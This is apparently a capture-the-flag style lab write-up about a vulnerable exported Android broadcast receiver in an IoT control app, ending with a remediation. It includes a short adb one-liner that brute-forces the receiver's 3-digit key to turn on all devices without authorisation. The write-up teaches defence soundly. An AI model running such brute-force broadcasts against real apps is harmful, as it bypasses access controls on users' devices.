

The IOT Connect lab is meant to help you understand how vulnerable **Broadcast receivers** can affect an application's security.

### So what is a Broadcast Receiver?
It's a component, that allows an appplication to listen for and respond to system-wide broadcast messages / events.
Improperly implemented broadcast receivers can allow an attacker to send a malicious intent to make vulnerable applications perform actions not intended for external callers.

### First look at the application
When we open the application we can see a few things.
First we see a login/sign-up, and after sign-in and respective login, we see a few devices, like speakers, TV, Fan, and a button to turn them on and off.
After interacting with them, we see that some we can turn on/off and others we can't, the application tells us its because we are a **guest user**.
<div class="image-row">
  
  
</div>
The other thing we see, is a master-switch button that requires a 3 digit pin, interesting.
<div class="image-row">
  
  
</div>

### Static Analysis

First things first, let's take a look at the android manifest.
Using JADX, open the application's APK, go to resources and AndroidManifest.xml
<br>
Straight away, we see a receiver named `MasterReceiver` with an intent filter waiting for broadcast `"MASTER_ON"`.


<br><br>
It caught my interest because it explicitly tells us that it is exported and its name is similar to that "Master switch" we saw earlier.
Lets have a look where and how it is implemented.
<br><br>
We see its usage in `CommunicationManager`:

<br><br>
Looking inside Communication Manager's class, this is the bit that interests us:
<br>

<br>

Here we see the action defined `MASTER_ON` and it is waiting for a `key` value.
It then checks this key and turns on all devices, so we see that we might have a broken access here.
<br>
The `check_key` function, calls the decrypt function and compares the result to **"master_on"** and returns **true** or **false** based on the result.
<br>

<br>

### Exploiting
We can clearly brute-force this key value, so let's begin.
Before proceeding with the brute-force lets set up frida-trace on the function `turnOnAllDevices` since we know this is the function called if we succeed with the bruteforce.

```
$ frida-trace -U "IOT Connect" -j '*!*turnOnAllDevices'
```

With this in mind, let's try brute-forcing our PIN, it's a simple 3 digit PIN, so a bash oneliner is enough to crack it:
```
$ for i in {000..999}; do adb shell am broadcast -a MASTER_ON --ei key $i; echo $i; done
```
We are sending a broadcast intent, with the action "MASTER_ON", iterating the parameter key from 0 to 999.


After a while we see this output on frida-trace:

<br>
And if we check the contents of the TV which was previously turn off, we see that it is now turned on:
<br>


### Remediation

To completely solve this issue we can define `exported` as `false`
```
        <receiver
            android:name="com.mobilehackinglab.iotconnect.MasterReceiver"
            android:enabled="true"
            android:exported="false">
            <intent-filter>
                <action android:name="MASTER_ON"/>
            </intent-filter>
        </receiver>
```

### Conclusion
This labs, using a simple exercise, explains how an application can become vulnerable by incorrectly configuring a broadcast receiver. 
With this broken access, a user does not need to be authenticated to perform privilege actions, in this case it was as simple as turning on devices, but it could be much much worse!

